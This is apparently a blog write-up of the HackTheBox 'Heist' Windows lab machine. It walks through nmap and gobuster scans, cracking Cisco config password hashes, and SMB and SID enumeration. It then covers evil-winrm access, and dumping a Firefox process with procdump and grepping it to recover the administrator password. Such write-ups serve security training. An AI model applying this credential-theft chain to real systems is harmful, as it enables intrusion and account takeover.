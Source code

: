 ```yaml
---
title: "Hackthebox Heist Walkthrough"
layout: "post"
categories: [Hackthebox, Windows]
tags: ["procdump", "HackTheBox", "Writeup"]
---
```


![Heist](/assets/img/posts/heist.png)

tl;dr : I made this box on a machine that is not mine (a basic Kali, normally I use arch)

## Reconnaissance

As always we do, let's start with nmap scanning.

```bash
Ap4sh@zzz:~/htb/heist$ sudo nmap -sC -sV -oN nmap/hesit-top-ports 10.10.10.149
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 06:18 EDT
Nmap scan report for 10.10.10.149
Host is up (0.076s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 12m28s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-03T10:31:08
|_  start_date: N/A


```

We have 3 ports open which are default http and smb service ports. On smb we cannot do anything for now. It's required authentication. 

There is a login page which is written in PHP on HTTP service. We can visit there by following 80 port. Doing fuzzing process we can see what kind of files we reach on web server.

```bash
Ap4sh@zzz:~/htb/heist$ gobuster dir -u http://heist.htb -w /opt/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php,txt,html,sql
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://heist.htb
[+] Threads:        10
[+] Wordlist:       /opt/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html,sql
[+] Timeout:        10s
===============================================================
2021/07/03 06:33:13 Starting gobuster
===============================================================
/login.php (Status: 200)
/images (Status: 301)
/js (Status: 301)
/index.php (Status: 302)
/css (Status: 301)
/attachments (Status: 301)
/. (Status: 302)
/errorpage.php (Status: 200)
/issues.php (Status: 302)

```

There is a lot file that we can check but once we login as guest user, we'll see a conversation between Hazard and Support Admin. Once we click attachment link we can see there are usernames and encoded passwords which are seem like belonging to Cisco Router config file. After cracking the passwords we'll get following decoded passwords.

```
$1$pdQG$o8nrSzsGXeaduXrjlvKc91 -> stealth1agent
0242114B0E143F015F5D1E161713 -> $uperP@ssword
02375012182C1A1D751618034F36415408 -> Q4)sJu\Y8qz*A3?d
```

We can list shared folders with `Hazard` and `stealth1agent` credentials but we have no access on these folders.

```bash
Ap4sh@zzz:~/htb/heist$ smbmap -H 10.10.10.149 -u 'Hazard' -p 'stealth1agent'
[+] IP: 10.10.10.149:445        Name: heist.htb                                         
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC


```


For more enumeration I tried enum4linux tool but `SID` is required for these creds. After that I used one of the impacket tools called `lookupsid.py` for user enumeration and found there are many user such as Chase, Jason etc.

```bash
Ap4sh@zzz:~/htb/heist$ python3 lookupsid.py Hazard:stealth1agent@heist.htb
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Brute forcing SIDs at heist.htb
[*] StringBinding ncacn_np:heist.htb[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)

```

Now we can try passwords that we found before on these users. On smb I could not get access again. After a full port scanning we can see there is another port which is 5985.

```bash
Ap4sh@zzz:~/htb/heist$ nmap -sV -p- heist.htb -oN nmap/heist-all-ports -v
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 07:18 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 07:18
Nmap scan report for heist.htb (10.10.10.149)
Host is up (0.074s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

## Getting Initial Access

We can try to get initial access with the usernames and passwords on this port via evil-winrm. 

![Getting Access](/assets/img/posts/heist/access.png)

After some searching on the box I saw there is firefox.exe and there are running processes that belong to firefox.

```bash
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> ps                                                                                                       
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                                                                                                                                      
-------  ------    -----      -----     ------     --  -- -----------                                                                                               
    355      25    16352     297340       0.09   6100   1 firefox          
   1049      77   206088     559208       7.91   6644   1 firefox          
    347      19     9968      34768       0.08   6752   1 firefox
    401      36    51716     111188       1.14   6880   1 firefox
    378      30    35104      71328       0.88   7152   1 firefox  
```

Let's upload `procdump` and dump one of these process.

```bash
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> upload procdump64.exe                                                                                                                                                          
Info: Uploading procdump64.exe to C:\Users\Chase\Desktop\procdump64.exe                    
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> dir                           
Mode                LastWriteTime         Length Name             
----                -------------         ------ ----
-a----         7/3/2021   5:24 PM         384888 procdump64.exe             
-a----        4/22/2019   9:08 AM            121 todo.txt   
-a----        4/22/2019   9:07 AM             32 user.txt


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop>./procdump64.exe -accepteula -ma 6100

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:40:02] Dump 1 initiated: C:\Users\Chase\Desktop\firefox.exe_210703_174002.dmp
[17:40:02] Dump 1 writing: Estimated dump file size is 298 MB.
[17:40:03] Dump 1 complete: 298 MB written in 0.4 seconds
[17:40:03] Dump count reached.


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> download firefox.exe_210703_174002.dmp
Info: Downloading C:\Users\Chase\Desktop\firefox.exe_210703_174002.dmp to firefox.exe_210703_174002.dmp

```

## Privilege Escalation

After got this dump, we can see human readable text with string command and we can search whatever we want.

```bash
Ap4sh@zzz:~/htb/heist$ strings firefox.exe_210703_174002.dmp | grep -n "login_password"
844:MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
2304:RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
2356:MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

As final step, once we use this password with Administrator account we can get full privilige on the system.

![Getting Admin Privileges](/assets/img/posts/heist/getting_admin.png)

That was an **REALLY** easy machine.
